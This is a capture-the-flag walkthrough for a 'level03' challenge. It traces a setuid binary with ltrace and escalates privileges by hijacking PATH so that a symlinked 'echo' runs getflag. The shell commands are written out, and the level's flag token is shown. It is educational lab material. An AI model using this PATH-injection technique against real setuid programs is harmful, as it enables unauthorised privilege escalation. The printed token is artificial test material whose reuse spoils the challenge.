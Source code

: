 # level03 solution
Given setuid binary in home directory with flag03 owner and level03 group owner:

    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

We can run it with ltrace to get the idea of what it is doing:

    getegid()                                        = 2003
    geteuid()                                        = 2003
    setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
    setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
    system("/usr/bin/env echo Exploit me"Exploit me

Ltrace is a tool which can display library calls of given binary. Provided setuid binary sets current effective user and group (flag03) to be a real user of current proccess and then it creates new process by calling system function and runs echo with environment provided from /usr/bin/env. But echo command in this binary executes by searching the PATH environment variable. This means that we can run any binary by providing our own PATH variable containing value of different directory. In this directory we can create symlink to getflag binary so setuid binary will run it under flag03 user.

    mkdir /tmp/level03
    cd /tmp/level03
    ln -s /bin/getflag echo
    cd -
    PATH=/tmp/level03 ./level03

As a result we get token for the next level bypassing logging as flag03 user.
    
    qi0maab88jeaj46qoumi7maus
